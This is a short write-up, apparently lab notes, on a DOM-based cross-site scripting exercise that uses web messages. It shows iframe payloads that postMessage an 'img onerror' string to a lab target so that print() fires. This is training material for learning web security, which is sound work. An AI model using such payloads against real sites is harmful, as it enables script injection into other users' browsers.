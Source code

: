 # DOM XSS using web messages

## This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

### HINT:

```html
<iframe
  src="//vulnerable-website"
  onload="this.contentWindow.postMessage('print()','*')"
></iframe>
```

![[lab1_object_object_window.addEventListner.png]]

add `<img src=1 onerror=print()>` to perform

```html
<iframe
  src="https://0a7000e704ee6ee682ca660800d9002d.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"
>
</iframe>
```

![[lab1_onerror.png]]
